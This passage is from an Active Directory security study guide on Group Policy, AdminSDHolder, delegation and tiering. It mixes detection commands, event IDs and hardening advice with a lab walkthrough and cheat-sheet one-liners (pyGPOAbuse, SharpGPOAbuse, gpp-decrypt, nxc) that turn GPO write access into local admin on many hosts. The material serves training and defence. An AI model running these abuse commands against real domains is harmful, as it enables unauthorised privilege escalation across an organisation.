Get-ADUser -LDAPFilter '(adminCount=1)' -Properties adminCount, memberOf |
  Select SamAccountName, memberOf

# Inspect AdminSDHolder's ACL for planted backdoor ACEs
(Get-Acl "AD:CN=AdminSDHolder,CN=System,DC=corp,DC=local").Access |
  Select IdentityReference, ActiveDirectoryRights, AccessControlType |
  Sort IdentityReference
```

Realistic finding you're hunting for:

```
IdentityReference          ActiveDirectoryRights  AccessControlType
=================          =====================  =================
CORP\Domain Admins         GenericAll             Allow
CORP\svc_helpdesk          GenericAll             Allow   <-- SUSPICIOUS: helpdesk should not be here
```

That second line is a self-healing backdoor: SDProp will re-stamp `svc_helpdesk`'s
GenericAll onto every privileged account hourly. Remove the ACE and investigate.

### 10.5 Reading a `gpresult` report like an operator

On any suspect host, `gpresult /r` (or the richer `/h`) tells you exactly which GPOs
won and which were filtered out — the client's own ground truth:

```
RSOP data for CORP\jsmith on WKSTN07 : Logging Mode
-------------------------------------------------------
COMPUTER SETTINGS
    Last time Group Policy was applied: 09:14:52
    Group Policy was applied from:      DC01.corp.local
    Applied Group Policy Objects
        Default Domain Policy
        Workstations - Security Baseline
        Workstations - AppLocker
    The following GPOs were not applied because they were filtered out
        Servers - Hardening
            Filtering:  Denied (Security)
        Kiosk Policy
            Filtering:  Denied (WMI Filter)
USER SETTINGS
    Applied Group Policy Objects
        Default Domain Policy
        Staff - Drive Maps
```

Read it like a hunter: an **unexpected** GPO under "Applied" (say `Update Task` you've
never heard of) is a red flag for GPO abuse; a *baseline* GPO showing under "filtered
out (Security)" when it should apply means someone tampered with security filtering to
carve a machine out of hardening — both are investigation-worthy in seconds.

### 10.6 A full GPO-abuse walkthrough (lab, authorized only)

Assume BloodHound showed `jsmith` has `GenericWrite` on the GPO *"Workstations -
Security Baseline"*, which links to `OU=Workstations` (200 machines). The end-to-end
chain from a Linux attacker box:

```bash
# 1) Confirm the edge and grab the GPO GUID over LDAP
nxc ldap 10.10.10.5 -u jsmith -p 'Passw0rd!' -M daclread \
    -o TARGET_DN='CN={GUID},CN=Policies,CN=System,DC=corp,DC=local' ACTION=read

# 2) Weaponise: add an immediate scheduled task that adds our user to local admins
pygpoabuse.py CORP/jsmith:'Passw0rd!' \
    -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" \
    -taskname "SecurityScan" \
    -command 'cmd.exe' \
    -args '/c net localgroup administrators corp\jsmith /add'
```

```
[+] ScheduledTasks.xml written to GPO {31B2F340-...}
[+] Version number incremented so clients re-process on next refresh
[+] Attack successful. Task 'SecurityScan' will run as SYSTEM on next gpupdate.
```

```bash
# 3) Wait for the 90-min refresh (or, if you have a session, force it), then verify
nxc smb 10.10.10.6 -u jsmith -p 'Passw0rd!'   # now shows (Pwn3d!) — local admin
```

The lesson the lab teaches viscerally: a *single property write* on one GPO became
local admin on 200 machines with no exploit, no CVE — just abuse of the control plane.
Had that GPO instead linked to `OU=Domain Controllers`, step 3 would have been domain
compromise. This is why "who can edit each GPO" (10.1) is the question that matters.

### 10.7 A concrete restricted-groups / GPP local-users example

Inside a GPO, the *Local Users and Groups* preference writes an XML like this to SYSVOL
(`Machine\Preferences\Groups\Groups.xml`) — the mechanism that quietly grants local
admin fleet-wide:

```xml
<Group clsid="{6D4A79E4-...}" name="Administrators (built-in)"
       image="2" changed="..." uid="{...}">
  <Properties action="U" newName="" description=""
              deleteAllUsers="0" deleteAllGroups="0"
              groupSid="S-1-5-32-544" groupName="Administrators (built-in)">
    <Members>
      <Member name="CORP\Helpdesk" action="ADD" sid="S-1-5-21-...-1152"/>
    </Members>
  </Properties>
</Group>
```

`action="U"` = update, `groupSid="S-1-5-32-544"` = the built-in Administrators alias
from Chapter 3. This single item makes `CORP\Helpdesk` a **local administrator on every
machine the GPO links to** — legitimate when scoped to a workstation OU, a Tier-0
violation if that same GPO ever touches a server or DC OU. Auditing these XML members
across SYSVOL is a fast, high-value review.

## Part 11: Common Pitfalls & Misconceptions

- **"GPOs are pushed by the DC."** No — clients **pull** policy at boot/logon and every
  ~90 min. A change isn't live until refresh (or `gpupdate /force`).
- **"Only admins can read GPO contents."** False — the GPT lives on SYSVOL, readable by
  every authenticated user; treat all GPO contents as attacker-visible.
- **"Security filtering to a user group is enough."** Post-MS16-072 the *computer* must
  still Read the GPO; keep Authenticated Users (or Domain Computers) with **Read** or
  the GPO silently stops applying.
- **"Enforced and Block Inheritance cancel out predictably."** Enforced **wins** and
  ignores Block Inheritance — a common precedence surprise.
- **"cPassword is fixed."** MS14-025 stopped *new* cPasswords but left existing XML in
  place; you must grep SYSVOL and remove them yourself.
- **"Delegation is safer than Domain Admin."** Only if scoped correctly — an over-broad
  OU ACL (GenericAll/WriteDacl) is a silent path to DA that no group membership reveals.
- **"AdminSDHolder is a group."** It's a template object; its ACL is stamped onto
  privileged accounts hourly by SDProp — which is exactly why it's a persistence target.
- **"Tiering is bureaucracy."** It's the control that turns "one workstation + one admin
  logon = Domain Admin" into a dead end; without it, everything else is patchable-around.

## Part 12: Detection & Defense Angle

Consolidated defensive program for this chapter's surface:

**Lock down the control plane.**

- Inventory *who can edit each GPO* and *who can write `gPLink`/`gPOptions` on every
  OU/site*. Reduce to a tiny, Tier-0-appropriate set. Treat the **Default Domain
  Policy** and **Default Domain Controllers Policy** as Tier-0.
- Grep SYSVOL for `cpassword` and remove it; deploy **LAPS/Windows LAPS** for all local
  admin passwords.
- Audit **delegation ACLs** on OUs and privileged objects; eliminate non-Tier-0
  principals holding `WriteDacl`, `WriteOwner`, `GenericAll`, `ForceChangePassword`, or
  the DCSync replication rights. Run BloodHound against your own domain quarterly.
- Audit **AdminSDHolder's DACL** for planted ACEs; verify `adminCount=1` accounts are
  legitimately privileged.

**Implement tiering + supporting controls.** Tier-0/1/2 separation, Protected Users for
Tier-0, Authentication Policies/Silos to bind admin accounts to PAWs, "deny logon"
user-rights across tiers, and PAWs for administration. This is the highest-leverage set.

**Watch the right events.**

| Event ID | Meaning | Relevance |
|----------|---------|-----------|
| 5136 | Directory object modified | GPC/`gPLink`/AdminSDHolder/OU-ACL changes |
| 5137 / 5141 | Object created / deleted | New GPO, new OU link |
| 4739 | Domain policy changed | Password/lockout policy tampering |
| 4672 | Special privileges assigned at logon | Admin-equivalent token issued |
| 4674 | Operation on privileged object | Sensitive-right use |
| 4728/4732/4756 | Added to privileged group | Group-based escalation |
| Sysmon 1 / 4698 | Process create / scheduled task created | GPP-delivered task = GPO abuse on endpoints |

**Crown-jewel alerts:** any modification to the two Default GPOs or to AdminSDHolder's
ACL (5136); creation of an *Immediate Scheduled Task* GPP item on many hosts (4698 /
Sysmon 1); new `gPLink` on a DC-containing OU; and any non-DC principal gaining the
DCSync replication rights.

## Part 13: Final Revision — Recap

- A **GPO** = **GPC** (AD object under CN=Policies, holds metadata + ACL + version) +
  **GPT** (settings folder on **SYSVOL**, world-readable), joined by a **GUID**.
- GPOs apply where **linked** (`gPLink` on Site/Domain/OU) in **LSDOU** order; closest
  to the object wins. **Enforced** overrides lower scopes and Block Inheritance;
  **loopback** applies the computer's user-settings to any logged-on user.
- Narrow application with **security filtering** (Read+AGP on the GPC), **WMI filters**,
  and **item-level targeting** — mind the MS16-072 "computer must Read" rule.
- Security-weighty settings: **GPP** (drives, tasks, local users), **startup scripts**
  (run as SYSTEM), **restricted groups**, **user-rights assignment**.
- Clients **pull** policy at boot/logon and every **90±30 min** (DCs every 5).
  `gpupdate /force`, `gpresult /h`.
- **cPassword (MS14-025):** GPP passwords on SYSVOL encrypted with a **public** AES key
  — `gpp-decrypt` any domain user can read; fix with LAPS + SYSVOL cleanup.
- **GPO abuse:** write access to an in-scope GPO (or to an OU's `gPLink`) = **SYSTEM RCE
  at scale** (SharpGPOAbuse / pyGPOAbuse); catastrophic if a DC is in scope.
- **Delegation:** ACL edges (`GenericAll`, `WriteDacl`, `WriteOwner`,
  `ForceChangePassword`, `AddMember`, replication rights → **DCSync**) are BloodHound's
  graph. **RODC** PRP, **AdminSDHolder/SDProp** (hourly re-stamp, `adminCount=1`,
  persistence target).
- **Tiering (0/1/2)** + **Protected Users** + **LAPS** + **auth silos** + **PAWs**
  contains credential theft — the highest-leverage AD hardening.

## Part 14: Cheat Sheet / Quick Reference

**GPO storage**

```
GPC : CN={GUID},CN=Policies,CN=System,DC=...   (LDAP: metadata, ACL, versionNumber)
GPT : \\domain\SYSVOL\domain\Policies\{GUID}\  (SMB: registry.pol, GPP XML, scripts)
Default Domain Policy GUID           : {31B2F340-016D-11D2-945F-00C04FB984F9}
Default Domain Controllers Policy GUID: {6AC1786C-016F-11D2-945F-00C04FB984F9}
```

**Precedence:** LSDOU (Local→Site→Domain→OU, child OU wins) · Enforced beats all +
ignores Block Inheritance.

**Refresh:** members 90±30 min, DCs 5 min · `gpupdate /force` · `gpresult /r|/h out.html`

**Enumeration**

```powershell
Get-GPO -All; Get-GPInheritance -Target <OU>; Get-GPOReport -All -ReportType Html -Path r.html
Get-GPPermission -Guid <id> -All        # who can edit
findstr /S /I cpassword \\dom\SYSVOL\...\Policies\*.xml
Get-ADUser -LDAPFilter '(adminCount=1)' -pr memberOf
(Get-Acl "AD:CN=AdminSDHolder,CN=System,DC=...").Access
```

```bash
nxc smb DC -u u -p p -M gpp_password           # find+decrypt cPassword
gpp-decrypt <blob>
nxc ldap DC -u u -p p --bloodhound -c All       # delegation/tiering graph
SharpGPOAbuse.exe --AddComputerTask ...         # GPO -> SYSTEM (authorized only)
```

**Key events:** 5136 (GPC/ACL/AdminSDHolder change) · 4698 (scheduled task) · 4739
(domain policy) · 4672 (priv logon) · 4728/4732/4756 (priv group add).

**Tiering controls:** Tier 0/1/2 · Protected Users · Authentication Silos · LAPS · PAWs
· deny-logon user rights across tiers.

## Part 15: Practice Labs & Resources

- **TryHackMe — "Exploiting Active Directory"** and **"Persisting AD"**: hands-on GPO
  abuse, delegation edges, and AdminSDHolder persistence.
- **HackTheBox — "Blackfield", "Sizzle", "Reel"**: delegation/ACL-abuse chains and
  DCSync via replication rights — direct application of Part 8.
- **HackTheBox — "Active"**: classic **GPP cPassword** on SYSVOL → local admin; do it
  end to end with `gpp-decrypt` (Part 6).
- **GOAD (Game of Active Directory)**: build the lab, run BloodHound, then practice
  SharpGPOAbuse/pyGPOAbuse against a GPO you control and watch the Immediate Scheduled
  Task fire — safely, in your own forest.
- **BloodHound / SharpHound docs** — study the `Contains`, `GpLink`, `GenericAll`,
  `WriteDacl`, `ForceChangePassword`, and `GetChanges/GetChangesAll` edges; they *are*
  this chapter rendered as a graph.
- **Microsoft docs:** "Securing Privileged Access" (the tier model), "Group Policy
  processing and precedence", "Windows LAPS", and "Protected Users security group".
- **Orange Cyberdefense / SpecterOps blogs** on GPO abuse and AdminSDHolder for the
  authoritative attacker/defender write-ups.

Practice questions:

1. A GPO is linked at the domain (Enforced) and a conflicting GPO is linked at the OU
   containing the user. Which setting wins, and why? (The **Enforced domain** GPO —
   Enforced overrides lower LSDOU scopes and Block Inheritance.)
2. You have `WriteProperty` on an OU's `gPLink` but cannot edit any existing GPO. How do
   you still get code execution on machines in that OU? (Create/host a malicious GPO and
   **link** it to the OU via `gPLink`; on refresh it applies as SYSTEM.)
3. Why is a GPP `cpassword` value in SYSVOL a critical finding even though it's
   AES-encrypted? (The AES key was published by Microsoft; any domain user who can read
   SYSVOL decrypts it — usually to a reused local-admin password.)
4. An account shows `adminCount=1` but isn't a member of any privileged group. What does
   that tell you? (It **was** privileged; SDProp locked its ACL — a breadcrumb worth
   investigating, and a hint its permissions may differ from peers.)
5. In tiering terms, explain why a Domain Admin logging into a normal helpdesk-managed
   workstation is dangerous, and one control that prevents it. (Their credentials/TGT
   land in that Tier-2 box's memory where they can be stolen; **Authentication Policy
   Silos** (or deny-logon user rights + PAWs) prevent Tier-0 accounts from logging on to
   lower-tier hosts.)
